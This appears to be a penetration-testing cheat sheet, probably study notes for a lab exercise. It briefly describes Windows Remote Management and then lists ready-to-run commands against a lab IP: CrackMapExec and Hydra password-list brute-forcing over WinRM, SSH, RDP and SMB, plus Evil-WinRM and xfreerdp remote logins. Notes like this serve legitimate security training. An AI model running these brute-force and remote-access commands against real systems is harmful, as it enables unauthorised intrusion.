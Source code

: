 
#### WINRM

>[! Note ]
> It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems. It takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).


#### CrackMapExec

>[! Note ]
> Can be used for SMB, LDAP, MSSQL and others

**Usage**
`crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`

Example:
```go
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```


#### Evil-WinRM

Allows you to communicate with WinRM 

**Usage**
`evil-winrm -i <target-IP> -u <username> -p <password>`

Example:
```go
evil-winrm -i 10.129.42.197 -u user -p password
```

#### Hydra

**Hydra-SSH**
```go
hydra -L user.list -P password.list ssh://10.129.42.197
```

Hydra-RDP
```go
hydra -L user.list -P password.list rdp://10.129.42.197
```

Hydra-SMB
```go
hydra -L user.list -P password.list smb://10.129.42.197
```

#### xFreeRDP
```go
xfreerdp /v:10.129.42.197 /u:user /p:password
```

>[! Warning]
>
> If you can encounter an error while compiling Hydra to crack an SMB password, you can re-compile or use metasploit's `auxiliary/scanner/smb/smb_login` 

